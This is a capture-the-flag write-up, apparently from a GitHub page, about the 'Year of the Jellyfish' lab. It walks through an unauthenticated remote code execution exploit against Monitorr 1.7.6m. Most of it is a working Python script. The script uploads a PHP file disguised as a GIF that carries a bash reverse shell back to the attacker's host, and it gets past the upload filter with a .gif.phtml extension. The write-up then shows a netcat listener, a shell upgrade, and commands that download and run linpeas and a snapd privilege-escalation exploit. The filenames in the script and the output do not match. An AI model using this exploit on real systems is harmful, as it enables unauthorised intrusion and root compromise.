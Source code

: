 # Year of the Jellyfish  
> Remote Code Execution Exploit `Monitorr 1.7.6m`

### Exploit Overview
This exploit demonstrates an unauthenticated Remote Code Execution (RCE) vulnerability in **Monitorr 1.7.6m**, a monitoring software. The vulnerability allows for unauthorized access and execution of arbitrary code on the target system. 

### Vulnerability Details
- **Software**: Monitorr 1.7.6m
- **Version**: 1.7.6m
- **Exploit Author**: Lyhin's Lab
- **Vulnerability**: Remote Code Execution (Unauthenticated)
- **Tested on**: Ubuntu 19
- **Issue**: File upload bypass and code execution via crafted file upload (`.gif.phtml` extension)


### Set Up Your Exploit Environment
Before running the exploit, make sure you have the following parameters ready:
- **Target URL**: The URL of the Monitorr application.
- **LHOST**: Your local IP address where the reverse shell will connect.
- **LPORT**: The port for the reverse shell to connect to (commonly port `443` for HTTPS).

### Create the Exploit
Here’s the Python script that performs the exploit.
```python
#!/usr/bin/python

import requests
import os
import sys

if len (sys.argv) != 4:
        print ("Specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"hello.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
    cookies = {"isHuman" : "1"}
    
    reqData = requests.post(url, headers=headers, data=data, cookies=cookies, verify=False)

    print(reqData.text)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/hello.php"
    print(requests.get(url, headers=headers, cookies=cookies, verify=False).text)
```
### File Upload Bypass and Reverse Shell
The upload functionality in Monitorr blocks certain extensions like .php, .phtml, and .php.gif. The exploit tries these extensions, and the final working extension found was .gif.phtml. This extension bypasses the file upload filter.

### Reverse Shell
Once the shell is uploaded, the script attempts to access the uploaded PHP shell (hello.php), which triggers a reverse shell connection. The exploit uses a random filename for the shell, making detection more difficult.
```python
filename = str(random.randint(1000, 10000))
data = f"-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"{filename}.gif.phtml\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"
```

Run the following Netcat listener to catch the incoming shell:
```bash
$ nc -lvnp 443
```

### Accessing the Shell
The shell will be established and can be accessed using the following command:
```bash
$ python exploit-rce.py https://monitorr.robyns-petshop.thm <YOUR_IP> 443
You should see a successful upload and shell access:
```

```vbnet

File pwn2own.gif.phtml has been uploaded to: ../data/usrimg/pwn2own.gif.phtml
A shell script should be uploaded. Now we try to execute it
Shell access & Flag 1
```

### Flag 1
Once the shell has been successfully uploaded and triggered, you can interact with the system. The first flag can be found by navigating to the usrimg directory.
```bash
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ whoami
www-data
www-data@petshop:/var/www/monitorr/assets/data/usrimg$ cd ~
www-data@petshop:/var/www$ ls
dev  flag1.txt	html  monitorr
www-data@petshop:/var/www$ cat flag1.txt 
THM{MjBkO**********************NGNl}
```

### Post Exploitation
After gaining access, you can execute the following commands for further enumeration and privilege escalation:
```bash
www-data@petshop:/var/www/monitorr/assets/data$ which python3
/usr/bin/python3
www-data@petshop:/var/www/monitorr/assets/data$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@petshop:/var/www/monitorr/assets/data$ export TERM=xterm
www-data@petshop:/var/www/monitorr/assets/data$ ^Z
[1]+  Stopped                 nc -lvnp 443
```

### Privilege Escalation
After establishing a stable shell, you can download tools like linpeas.sh to check for privilege escalation opportunities.
```bash
$ curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh > linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
```

Look for upgradable software, such as snapd, which might be vulnerable:
```bash
$ apt list --upgradable
```

In this case, snapd was found to be upgradable and exploitable via a local privilege escalation exploit.

```bash
$ searchsploit snapd
```

Finally, download and run the exploit to escalate privileges:
```bash
$ wget https://www.exploit-db.com/download/46362
$ python 46362.py
```

### Final Flag and Root Access
Once you successfully execute the privilege escalation, you can read the final flag and obtain root access.

```bash
www-data@petshop:/var/www$ cat flag1.txt
THM{MjB************************jNGNl}
```

> This is a demonstration of how to exploit an unauthenticated RCE vulnerability and escalate privileges on a vulnerable system. Always ensure you have explicit permission to test and exploit any system in a legal environment, such as Capture the Flag (CTF) challenges or authorized pen-testing engagements.

#### References
- https://github.com/Monitorr/Monitorr
- https://www.exploit-db.com/exploits/46362


